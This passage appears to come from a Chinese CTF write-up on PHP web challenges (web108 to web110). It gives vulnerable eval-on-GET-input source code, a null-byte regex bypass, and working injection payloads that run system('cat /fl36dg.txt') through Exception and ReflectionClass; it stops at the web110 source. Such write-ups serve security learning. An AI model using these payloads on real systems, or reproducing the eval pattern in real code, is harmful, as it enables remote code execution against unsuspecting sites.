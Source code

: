 payload:

> c=a%00778

正则表达式只会匹配%00之前的内容，后面的被截断掉，

通过反转成877%00a，再用intval函数获取整数部分得到877，877为0x36d的10进制。



## web109

```php
<?
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}
?>
```

知识点：

Exception 异常处理类 <http://c.biancheng.net/view/6253.html> 

php发射类ReflectionClass

```
payload:
v1=Exception();system('cat /fl36dg.txt');//&v2=a
v1=ReflectionClass&v2=system('cat /fl36dg.txt')
```



## web110

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```
